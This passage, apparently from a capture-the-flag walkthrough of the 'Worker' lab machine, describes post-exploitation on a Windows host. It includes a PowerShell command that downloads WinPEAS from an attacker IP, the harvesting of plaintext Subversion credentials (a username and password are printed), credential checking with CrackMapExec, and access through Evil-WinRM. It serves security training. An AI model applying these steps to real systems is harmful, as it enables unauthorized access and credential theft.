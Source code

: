 <details></details>

It didn't appear that the user had any interesting attributes associated with the account. I uploaded WinPEAS to the server to automate some of the enumeration using the following command:

```powershell
powershell.exe Invoke-Webrequest  -OutFile C:\\Windows\\Temp\\winPEAS.exe -Uri  http://10.10.14.21/winPEAS.exe

```

After reviewing the output, I came across the following:

<details></details>

In addition to the normal `C$` drive, there was a `W$` drive. This drive contained additional directories related to the Azure DevOps site and svn:

<p class="imgMiddle">
<img src="/assets/img/ChallengeVMs/Worker/img8.png"  style="width: 60%" />
</p>

Subversion puts all the credentials in a file called `passwd`, and luckily the file was not encrypted on the host. The contents of the file are shown below:

<details></details>

The file contained several username, password combinations. I used CrackMapExec with the combinations and found that `robisl:wolves11` was the only valid set of credentials for the host. 

## Privilege Escalation using Robisl

Using this username, password combination, I authenticated to the host using `Evil-WinRM`:

<details></details>

Enumerating the host did not provide more information, so I attempted to log in to the DevOps portal using the new credentials:

<p class="imgMiddle">